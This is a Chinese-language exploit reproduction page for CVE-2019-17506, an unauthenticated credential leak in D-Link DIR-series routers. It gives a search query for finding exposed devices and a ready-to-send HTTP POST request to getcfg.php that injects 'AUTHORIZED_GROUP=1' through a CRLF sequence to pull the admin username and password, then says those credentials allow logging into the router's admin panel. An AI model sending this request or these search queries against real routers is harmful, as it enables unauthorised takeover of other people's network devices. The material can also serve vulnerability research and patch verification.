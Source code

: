 # D-Link DIR-645 getcfg.php 账号密码泄露漏洞 CVE-2019-17506

# D-Link Dir-645 getcfg.php 账号密码泄露漏洞 CVE-2019-17506 

## 漏洞描述

D-Link DIR-868L B1-2.03和DIR-817LW A1-1.04路由器上有一些不需要身份验证的Web界面。攻击者可以通过SERVICES的DEVICE.ACCOUNT值以及AUTHORIZED_GROUP = 1％0a来获取getcfg.php的路由器的用户名和密码（以及其他信息）。这可用于远程控制路由器

## 漏洞影响

```
D-Link Dir 系列多个版本
```

## 网络测绘

```
app="D_Link-DIR-868L"
```

## 漏洞复现

登录页面如下

![](/images/202202162225738.png)

发送下请求包

```plain
POST /getcfg.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Length: 61

SERVICES=DEVICE.ACCOUNT&attack=ture%0D%0AAUTHORIZED_GROUP%3D1
```

![](/images/202202162226400.png)

获取到路由器账号密码即可登录后台


